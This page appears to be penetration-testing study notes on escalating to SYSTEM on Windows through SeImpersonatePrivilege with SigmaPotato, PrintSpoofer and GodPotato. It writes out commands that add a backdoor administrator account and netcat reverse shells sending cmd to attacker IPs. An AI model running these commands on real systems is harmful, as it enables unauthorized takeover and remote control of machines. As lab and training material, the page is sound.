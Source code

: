 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**. This privilege is normally assigned to `administrator` accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, `SeImpersonatePrivilege` is often accessible when gaining code execution through services like **IIS**, which commonly run under accounts that have it.

> _**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time._

In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

## SigmaPotato

[**SigmaPotato**](https://github.com/tylerdotrar/SigmaPotato) is a tool that leverages a variation of the "potato" attacks to coerce `NT AUTHORITY\SYSTEM` into connecting to a controlled named pipe. If we have `SeImpersonatePrivilege`, SigmaPotato lets us escalate to `SYSTEM`, executing commands or gaining an interactive shell.

{% tabs %}
{% tab title="1. Bind Shell" %}
{% code overflow="wrap" %}
```bash
$ nc 192.168.225.220 4444
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
<SNIP>
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
<SNIP>
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
{% code overflow="wrap" %}
```powershell
PS C:\Users\dave> .\sigmapotato.exe "net user dave4 Pass123! /add"
...
[+] Process Output:
The command completed successfully.


PS C:\Users\dave> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
...
[+] Process Output:
The command completed successfully.
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
```powershell
PS C:\Users\dave> Get-LocalGroupMember administrators
Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave4         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
{% endtab %}
{% endtabs %}

## PrintSpoofer

{% tabs %}
{% tab title="1. PrivEsc" %}
Escalate to `NT AUTHORITY\SYSTEM` on the same session:

```powershell
PrintSpoofer.exe -i -c cmd
```
{% endtab %}

{% tab title="2. RevShell" %}
Create a new `SYSTEM` process and exit immediately without interacting with it. Suitable for non-interactive cases, e.g. WinRM.

```powershell
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

On the attacking box:

```bash
$ nc -lvpn 1337
...
C:\WINDOWS\system32>whoami
nt authority\system
```
{% endtab %}

{% tab title="3. RDP" %}
&#x20;Spawn a `SYSTEM` command prompt on your desktop, for instance, when logged in via an RDP session.

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp           lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
{% endtab %}
{% endtabs %}

## GodPotato

{% tabs %}
{% tab title="1. PrivEsc" %}
```powershell
GodPotato -cmd "cmd /c whoami"
```
{% endtab %}

{% tab title="2. RevShell" %}
```powershell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="SigmaPotato" %}
{% embed url="https://github.com/tylerdotrar/SigmaPotato" %}
{% endtab %}

{% tab title="PrintSpoofer" %}
{% embed url="https://github.com/itm4n/PrintSpoofer?tab=readme-ov-file" %}
{% endtab %}

{% tab title="GodPotato" %}
{% embed url="https://github.com/BeichenDream/GodPotato" %}
{% endtab %}
{% endtabs %}
